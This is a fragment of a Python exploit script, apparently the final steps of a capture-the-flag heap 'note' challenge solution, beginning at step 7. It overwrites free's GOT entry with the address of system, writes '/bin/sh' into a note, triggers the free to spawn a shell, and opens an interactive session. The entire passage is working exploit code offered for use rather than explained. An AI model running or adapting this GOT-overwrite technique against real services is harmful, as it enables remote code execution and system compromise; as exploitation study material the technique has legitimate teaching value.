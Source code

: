 ```
print 'system_addr:',hex(system_addr)

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
